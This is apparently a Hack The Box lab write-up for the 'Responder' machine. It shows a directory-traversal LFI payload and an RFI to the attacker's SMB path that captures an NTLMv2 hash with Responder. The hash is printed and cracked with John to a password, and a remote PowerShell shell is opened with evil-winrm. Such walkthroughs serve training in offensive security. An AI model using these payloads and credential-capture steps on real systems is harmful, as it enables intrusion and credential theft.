# Hack The Box: Responder Writeup

[Link to Room](https://app.hackthebox.com/machines/Responder)

## About
Responder is a very easy Windows machine that focuses on exploring the File Inclusion vulnerability on a web application and how this can be leveraged to collect the NetNTLMv2 challenge of the user that is running the web server. The machine showcases the Responder utility and the hash cracking tool John The Ripper to obtain a cleartext password from an NTLM hash. Finally, the Evil-WinRM tool can be used to get a terminal on the machine using the acquired credentials.

## Methodology & Walkthrough

### 1. Information Gathering & Routing
We start by visiting the provided IP address of the box in our browser and watching how the URL changes.







The application redirects to the domain `http://unika.htb/`. 

To access the site, we must add an entry to our `/etc/hosts` file. This routes any requests for this domain to the correct IP address and vice versa.

```bash
nano /etc/hosts
```



Now, the website will reload successfully where it earlier could not.


### 2. Web Application Analysis
Observing the URL extension of the page being loaded, we need to find which scripting language is being used on the server to generate webpages. We can use the Wappalyzer extension to see the technologies running behind the scenes.



The server uses **PHP**.

Next, we analyze the URL when visiting different language versions of the page.



We change the language to German as an example.



We can see it is using the `page` URL parameter to load different language versions of the webpage.

### 3. Local File Inclusion (LFI)
An LFI is a vulnerability where an application accesses a file on the local system that isn't intended to be read.

We are presented with a few potential values for the `page` parameter to test for LFI:
- `french.html` (Normal behavior)
- `//10.10.14.6/somefile` (This tricks the server into including a file from another server, which is a Remote File Include (RFI) vulnerability)
- `../../../../../../../../windows/system32/drivers/etc/hosts` (Directory traversal attempting to read a sensitive local file)
- `mimikatz.exe` (Executable file, not an LFI payload)

Testing `french.html` works normally after changing the language:



The directory traversal going to the host file (`../../../../../../../../windows/system32/drivers/etc/hosts`) is our valid LFI payload.

We can also reference a sample LFI wordlist here: [LFI Wordlist](https://github.com/drtychai/wordlists/blob/master/intruder/lfi.txt)



Since we saw it was using Apache earlier, we can use payloads from the list which match the "apache" word as well.



We try the LFI payload given in the question after the `page` parameter:



The server returns the contents of the `hosts` file, confirming the LFI vulnerability.

### 4. Exploiting RFI with Responder
An RFI tricks the server into including a file from another server, such as the attacker's server. A payload like `//10.10.14.6/somefile` using a private IP is an example of an RFI.

We can exploit this to capture an NTLM (New Technology Lan Manager) hash. There are tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any generate the same response. First, we need to capture that challenge.

We use the **Responder** utility. Using the `--help` flag, we can see the usage of all flags to find how to specify the network interface.

```text
    -I eth0, --interface=eth0
                        Network interface to use. Use 'ALL' for all
                        interfaces.
```

We run Responder on our `tun0` interface (the Hack The Box VPN IP).

```bash
responder -I tun0
```

It starts a lot of different listening servers.



Responder gives us its own IP on the VPN.



We copy the IP address and use it as an RFI payload. It will request some file from our (Responder) IP.



We run it in the browser.



The request goes through, and we capture the hash! We take a copy of the hash.

```text
Administrator::RESPONDER:5bf63366f0f9e736:EEE57336FDEEF51D1E8CDD674CEC8B7A:0101000000000000809B981039ECDC01906DC4B780B9695A0000000002000800350032004200550001001E00570049004E002D005A00570045003600470038003800580035005300450004003400570049004E002D005A0057004500360047003800380058003500530045002E0035003200420055002E004C004F00430041004C000300140035003200420055002E004C004F00430041004C000500140035003200420055002E004C004F00430041004C0007000800809B981039ECDC010600040002000000080030003000000000000000010000000020000082E26D3AC7DC28D8F57288D6C1C1F09D8D6478E21ED59AD8F372DAFE2190B2FF0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310036002E003200310030000000000000000000  
```

We create a new file called `hash` and paste the hash in it.

```bash
nano hash
```

### 5. Hash Cracking
We use **John The Ripper** and provide the `rockyou.txt` wordlist to crack the hash.

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



The password for the Administrator user is successfully cracked: **badminton**.

### 6. Remote Access (WinRM)
We will use a Windows service running on the box to remotely access the Responder machine using the password we recovered. First, we analyze an Nmap scan to find listening ports.

```bash
nmap -sC -sV 10.129.11.182 -T5
```



Port **5985** is open, which is important:

```text
5985/tcp open http Microsoft HTTPAPI
```

This is the key. 5985 TCP corresponds to **WinRM (Windows Remote Management)**. It allows you to remotely open a PowerShell session with a username and password, similar to how `ssh` works on Linux. 

There are two main tools we use for this workflow:

#### 1. NetExec (`nxc winrm`)
**Purpose:** Check if credentials work ("Can I get in?").

Example:
```bash
nxc winrm 10.129.11.182 -u administrator -p 'Password123!'
```
It tells you if 5985 is open, if creds work, which users work, and if you are admin.
Example output:
```text
[+] WINRM login successful
```
or
```text
[-] Access denied
```
It is fast and safe.

#### 2. Evil-WinRM (`evil-winrm`)
**Purpose:** Actually log in and get an interactive PowerShell session ("I’m inside now").

Example:
```bash
evil-winrm -i 10.129.11.182 -u administrator -p 'Password123!'
```
Then you get a prompt:
```text
PS C:\Users\Administrator>
```
Now you can run commands interactively:
```bash
whoami
dir
type user.txt
ipconfig
```

We will use `evil-winrm` now with our cracked credentials.

```bash
evil-winrm -i 10.129.11.182 -u Administrator -p badminton 
```



### 7. Post-Exploitation & Flag Retrieval
We are in! Now we try to find the flag. Windows users' home directories are by default in `C:\Users`.



Let's check the `mike` directory.

